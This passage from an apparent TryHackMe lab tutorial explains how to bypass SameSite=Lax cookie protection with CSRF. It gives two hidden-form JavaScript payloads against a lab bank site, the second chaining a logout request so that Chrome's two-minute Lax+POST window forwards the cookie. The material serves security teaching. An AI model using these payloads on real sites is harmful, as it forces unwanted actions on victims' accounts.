 ![lax plus post test buttons](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/227844a4c0b289149e7ec15d9c429547.png)  

- The email consists of two learning buttons; the first will make a POST request to `index.php` to update the `isBanned` cookie value.
- The first button uses the following code:

```javascript
<script>
function launchAttack(){ setTimeout(function(){bank.submit()},1000)
}
</script>
<form style="display:none" name="bank" 
method=post action="http://mybank.thm:8080/index.php">
<input name="isBanned" value="true">
<input type="submit">
</form>
```

- Click on the button and see what happens - you will see the following error:

![isbanned cookie not found error](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/cc1ca1a6778b07e946416c785c131278.png)  

- This is because the `isBanned` cookie was not forwarded by the browser during the request.  
    
- So, what is the solution here? We can exploit the Chrome feature that sends the cookies in each web request if modified in the last **2 minutes**. As a pentester, it is essential to understand each web request and response. The `isBanned` cookie value is updated in two instances, once during login and the other during logout.
- We can chain the process to make the user visit the logout link; once he is logged out and the `isBanned` cookie is updated, we have a 2-minute window to call `index.php` to update the isBanned cookie value.
- Here is the code that will take the user to the logout page and then make a call to `index.php` with the updated `isBanned` cookie value.  
    

```javascript
<script>
function launchAttackSuccess(){
let win = window.open("http://mybank.thm:8080/logout.php",'');
setTimeout(function(){win.close();bank.submit()},1000)
}
</script>
<form style="display:none" name="bank" 
method=post action="http://mybank.thm:8080/index.php">
<input name="isBanned" value="true">
<input type="submit">
</form> 
```

- Click on the `Successful Attack` button, which will first log out the user, then make a POST request to `index.php`, and update the `isBanned` cookie value. Chrome will forward the cookie in the request as it is updated in less than **2 minutes**.  
    

![user banned message](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/0f234faf633173af4c657383528ebef9.png)
